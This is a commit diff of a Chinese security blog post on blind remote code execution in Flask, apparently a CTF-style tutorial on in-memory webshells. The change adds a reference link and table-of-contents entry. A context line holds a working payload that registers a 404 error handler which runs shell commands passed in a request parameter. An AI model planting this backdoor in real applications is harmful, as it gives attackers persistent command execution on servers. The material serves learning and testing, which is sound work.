

Before and after one commit to Thr2on1/thr2on1.github.io, a plain HTML site: page 2025/05/29/Flask无回显RCE/index.html in a window 1280 px wide. Shown: the part 2437-3239 px from the top of the page, without its empty margins (240-1022 px from the left). Before the commit the page ends 3120 px from the top, so only its background shows below. Drawn offline with nearby package versions, Linux system fonts and the light colour scheme; some packages are replaced by stand-ins of ours; a script that the page names is missing; a web font is replaced by a local one.

Commit message:
Site updated: 2025-05-29 17:45:18

```diff
--- a/2025/05/29/Flask无回显RCE/index.html
+++ b/2025/05/29/Flask无回显RCE/index.html
@@ -15,7 +15,7 @@
 <meta property="og:locale" content="zh_CN">
 <meta property="og:image" content="https://raw.githubusercontent.com/Thr2on1/BlogImages/main/img/Pasted%20image%2020250417093253.png">
 <meta property="article:published_time" content="2025-05-29T08:48:51.000Z">
-<meta property="article:modified_time" content="2025-05-29T09:39:23.845Z">
+<meta property="article:modified_time" content="2025-05-29T09:40:29.487Z">
 <meta property="article:author" content="Thr2on1">
 <meta property="article:tag" content="WEB">
 <meta property="article:tag" content="Flask">
@@ -118,7 +118,7 @@
 
 
       <div id="toc">
-        <ol class="toc"><li class="toc-item toc-level-2"><a class="toc-link" href="#debug%E6%A8%A1%E5%BC%8F"><span class="toc-number">1.</span> <span class="toc-text">debug模式</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E9%9D%9Edebug%E6%A8%A1%E5%BC%8F"><span class="toc-number">2.</span> <span class="toc-text">非debug模式</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#0x01-%E6%97%A7%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.1.</span> <span class="toc-text">0x01 旧版内存马</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#0x02-%E6%96%B0%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.2.</span> <span class="toc-text">0x02 新版内存马</span></a></li></ol></li></ol>
+        <ol class="toc"><li class="toc-item toc-level-2"><a class="toc-link" href="#debug%E6%A8%A1%E5%BC%8F"><span class="toc-number">1.</span> <span class="toc-text">debug模式</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E9%9D%9Edebug%E6%A8%A1%E5%BC%8F"><span class="toc-number">2.</span> <span class="toc-text">非debug模式</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#0x01-%E6%97%A7%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.1.</span> <span class="toc-text">0x01 旧版内存马</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#0x02-%E6%96%B0%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.2.</span> <span class="toc-text">0x02 新版内存马</span></a></li></ol></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0"><span class="toc-number">3.</span> <span class="toc-text">参考文章</span></a></li></ol>
       </div>
 
   </span>
@@ -196,6 +196,7 @@
 <p>通过errorhandler绑定一个钩子函数，然后HTTP状态码为404时就调用我们自定义的函数，那么我们就可以加以利用。<br>payload：</p>
 <figure class="highlight plaintext"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">exec(&quot;global exc_class;global code;exc_class, code = app._get_exc_class_and_code(404);app.error_handler_spec[None][code][exc_class] = lambda a:__import__(&#x27;os&#x27;).popen(request.args.get(&#x27;gxngxngxn&#x27;)).read()&quot;)</span><br></pre></td></tr></table></figure>
 <p>要用exec执行命令，eval不支持执行多条python命令。</p>
+<h2 id="参考文章"><a href="#参考文章" class="headerlink" title="参考文章"></a>参考文章</h2><p><a target="_blank" rel="noopener" href="https://www.cnblogs.com/gxngxngxn/p/18181936">新版FLASK下python内存马的研究 - gxngxngxn - 博客园</a></p>
 
   </div>
 </article>
@@ -227,7 +228,7 @@
 
 
       <div id="toc-footer" style="display: none">
-        <ol class="toc"><li class="toc-item toc-level-2"><a class="toc-link" href="#debug%E6%A8%A1%E5%BC%8F"><span class="toc-number">1.</span> <span class="toc-text">debug模式</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E9%9D%9Edebug%E6%A8%A1%E5%BC%8F"><span class="toc-number">2.</span> <span class="toc-text">非debug模式</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#0x01-%E6%97%A7%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.1.</span> <span class="toc-text">0x01 旧版内存马</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#0x02-%E6%96%B0%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.2.</span> <span class="toc-text">0x02 新版内存马</span></a></li></ol></li></ol>
+        <ol class="toc"><li class="toc-item toc-level-2"><a class="toc-link" href="#debug%E6%A8%A1%E5%BC%8F"><span class="toc-number">1.</span> <span class="toc-text">debug模式</span></a></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E9%9D%9Edebug%E6%A8%A1%E5%BC%8F"><span class="toc-number">2.</span> <span class="toc-text">非debug模式</span></a><ol class="toc-child"><li class="toc-item toc-level-3"><a class="toc-link" href="#0x01-%E6%97%A7%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.1.</span> <span class="toc-text">0x01 旧版内存马</span></a></li><li class="toc-item toc-level-3"><a class="toc-link" href="#0x02-%E6%96%B0%E7%89%88%E5%86%85%E5%AD%98%E9%A9%AC"><span class="toc-number">2.2.</span> <span class="toc-text">0x02 新版内存马</span></a></li></ol></li><li class="toc-item toc-level-2"><a class="toc-link" href="#%E5%8F%82%E8%80%83%E6%96%87%E7%AB%A0"><span class="toc-number">3.</span> <span class="toc-text">参考文章</span></a></li></ol>
       </div>
 
 
```
